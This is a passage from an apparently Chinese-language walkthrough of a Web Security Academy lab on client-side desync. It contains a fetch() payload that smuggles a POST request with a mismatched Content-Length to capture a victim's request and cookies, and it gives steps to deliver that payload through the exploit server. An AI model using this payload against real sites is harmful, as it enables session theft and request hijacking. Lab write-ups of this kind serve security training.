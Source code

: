 [![](assets/1705301772-c8bee9c6b69fe090722613f0b484ddf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183528-a2c2aa70-b2c8-1.png)  
刷新博客文章并确认通过浏览器发起的攻击成功输出您自己/capture  
[![](assets/1705301772-0bb62cb361cab69c50a6b9311e0b65a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183542-aaca754a-b2c8-1.png)  
更改 Content-Length 捕获更多

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-5fc6d24e7c7ac65a2ba47c78a73365df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183601-b64f4f44-b2c8-1.png)  
随后转到漏洞利用服务器，在"正文"面板中粘贴之前的测试的脚本，随后将整个脚本包装在 HTML 的＜script＞标记中，存储该漏洞并单击"传递给受害者"  